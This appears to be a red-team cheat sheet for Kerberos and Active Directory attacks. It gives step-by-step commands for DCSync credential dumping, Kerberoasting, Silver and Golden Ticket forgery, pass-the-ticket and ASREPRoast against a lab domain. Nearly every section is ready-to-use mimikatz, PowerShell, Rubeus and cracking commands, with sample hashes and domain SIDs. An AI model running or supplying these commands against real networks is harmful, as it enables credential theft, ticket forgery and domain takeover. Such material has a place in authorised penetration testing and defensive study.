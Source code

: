 # Kerberos Attack

***

## DCSync

DCSync is a mimikatz feature that enables us to act as a Domain Controller and request password data from the targeted DC  

```
lsadump::dcsync /domain:nooranetshield.local /user:administrator
```

```
Kerberos::golden /user:user1 /domain:nooranet.cy /sid:S-1-5-21-1297822710-3352181213-1265919107-1114 /target:nooranet.cy /service:HTTP /aes128:23b740c1bc0770cbefb5b612da1f5735  /ptt
```

```
kerberos::ptt ticket.kirbi
misc::cmd
```

## Kerberoasting

Once we have a list of Service Principal Names (SPNs) associated with service accounts, these SPNs can be used to request Kerberos TGS service tickets.
What we can do with those tickets is try to crack them offline. This credential extracting procedure against service accounts is known as kerberoasting.
Kerberoasting can be performed by a regular user without sending any suspicious traffic to the target system. This attack is usually effective due to weak domain password policies. Most service account passwords are the same length as the domain password minimum

setspn -A MSSQLSvc/ht.nooranetshield.local:1433 nooranetshield\user1

* Obtain a list of SPN values for user accounts
  Spn.ps1
  
  ```powershell
  # Build LDAP Filter to look for users with SPN values registered for current domain
  $ldapFilter = "(&(objectclass=user)(objectcategory=user)(servicePrincipalName=*))"
  $domain = New-Object System.DirectoryServices.DirectoryEntry
  $search = New-Object System.DirectoryServices.DirectorySearcher
  $search.SearchRoot = $domain
  $search.PageSize = 1000
  $search.Filter = $ldapFilter
  $search.SearchScope = "Subtree"
  #Execute Search
  $results = $search.FindAll()
  #Display SPN values from the returned objects
  foreach ($result in $results)
  {
      $userEntry = $result.GetDirectoryEntry()
      Write-Host "User Name = " $userEntry.name
      foreach ($SPN in $userEntry.servicePrincipalName)
      {
          Write-Host "SPN = " $SPN
      }
      Write-Host ""
  }
  ```

* Request Service Tickets for service account SPNs
  
  ```
  Add-Type -AssemblyName System.IdentityModel
  New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList  'MSSQLSvc/ht.nooranetshield.local:1433'
  ```

* Extract Service Tickets Using Mimikatz
  
  ```
  mimikatz # kerberos::list /export
  ```

* Crack the Tickets
  
  ```
  E:\AD-Attack\kerberoast>python tgsrepcrack.py wordlist.txt "2-40a10000-user1@MSSQLSvc~ht.nooranetshield.local~1433-NOORANETSHIELD.LOCAL.kirbi"
  ```

## Silver Ticket

Silver Tickets enable an attacker to create forged service tickets (TGS tickets). These tickets can provide access to the service that was compromised with a Kerberoasting attack

#### Create Forged Service Tickets Using Mimikatz

```
kerberos::golden /sid:S-1-5-21-1607521056-20504773-1893184097 /domain:nooranetshield.local  /target:app.nooranetshield.local:1433 /service:MSSQLSvc /rc4:47bf8039a8506cd67c524a03ff84ba4e /user:redteam1 /id:1104 /ptt
```

* Domain sid 
  * Whoami /user
    * nooranetshield\user1 S-1-5-21-1607521056-20504773-1893184097-1104
* Target – This is the host, which can be copied from the SPN value. In my case, this is app.nooranetshield.local:1433.
* Service – This will be the name of the service that we will create tickets for. This must be a service running as the service account we compromised. We will focus on the MSSQLSvc.
* User – This specifies the user that the ticket will be created for, and this can be any user account whatsoever, even user accounts that do not exist.
* Groups – This is the list of groups that will be added to the PAC for the account. By default, this will include Domain Admins but you can override it with custom groups if needed.
* Rc4 : NTLM hash service password 
  * install-module -name DSInternals
  * Import-Module DSInternals
  * $pwd = ConvertTo-SecureString "Aa123456" -AsPlainText -Force
  * ConvertTo-NTHash $pwd
  * 47bf8039a8506cd67c524a03ff84ba4e

##### Pass-the-Ticket

* Klist
* Sqlcmd -S app.nooranetshield.local 
  * Select db_name();
  * Go
  * Select @@version;
  * Go

## Golden Ticket

* Gather KRBTGT Password Information
  
  ```
  lsadump::dcsync /domain:nooranetshield.local /user:krbtgt
  Or
  privilege::debug
  lsadump::lsa /inject /name:krbtgt
  ```

* Create Golden Tickets
  
  ```
  kerberos::golden /sid:S-1-5-21-1607521056-20504773-1893184097 /domain:nooranetshield.local  /rc4:308e123a6c7a331a448003c5f79d8a0a /id:500 /user:trustme
  ```

* Pass the Ticket
  
  ```
  kerberos::ptt ticket.kirbi
  misc::cmd
  pushd \\ht.nooranetshield.local\c$
  ```
  
  ## ASREPRoast
  
  The ASREPRoast attack looks for users without Kerberos pre-authentication required attribute That means that anyone can send an AS_REQ request to the DC o\\n behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.
  
  ```powershell
  Get-DomainUser -PreauthNotRequired -verbose
  Rubeus.exe asreproast /format:hashcat /outfile:out.txt
  john --wordlist=passwords_kerb.txt  out.txt
  ```
